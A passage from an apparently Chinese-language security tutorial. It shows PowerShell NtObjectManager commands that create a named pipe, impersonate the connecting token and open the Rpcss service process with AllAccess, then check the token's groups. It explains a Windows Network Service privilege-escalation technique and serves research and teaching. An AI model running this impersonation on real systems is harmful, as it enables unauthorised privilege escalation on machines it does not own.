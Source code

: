 ```plain
$pipe = New-NtNamedPipeFile \\.\pipe\AAA2 -Win32Path
$job = Start-Job {$pipe.Listen（）}
$file = Get-NtFile \\127.0.0.1\pipe\AAA2 -Win32Path
Wait-Job $Job | Out-Null
```

这次我们模拟命名管道然后再次去请求 Rpcss 服务。这里需要注意的一点是，如果 $p 部分按照文章中的分段进行输入，那么需要在核心模式下运行，也就是需要将命令写入一个 ps1 文件然后执行。如果不想创建一个 ps1 文件，那么可以将命令写为一行。具体命令如下。

```plain
$p = Use-NtObject（$pipe.Impersonate（））{
    Get-NtProcess -ProcessId 912
}
$p.GrantedAccess
```

此时我们可以看到，通过 `Impersonate（）`进行了身份模拟，然后在该身份下执行了 `$p.GrantedAccess` 来获取该进程被赋予的访问权限，结果为 AllAccess。执行结果如图 26 所示。

![图片](assets/1711883925-0d9197e9b58fd74a2202305d95650e7c.webp)

图 26 获取相关权限

我们可以通过查看令牌的组列表来验证我们前面所说的 Lsass 保存的是登录会话创建的第一个令牌（因为 Rpcss 是第一个以 Network Service 运行的服务）。查看令牌的组列表命令如下。

```plain
$token = Use-NtObject（$pipe.Impersonate（））{
    Get-NtToken -Impersonation
}
$token.Groups | ? Name -Match Rpcss
```

可以看到 Rpcss 已在其中。令牌的组列表如图 27 所示。

![图片](assets/1711883925-ee8bdfb870e09d2bc2e4f0a29e8f8705.webp)
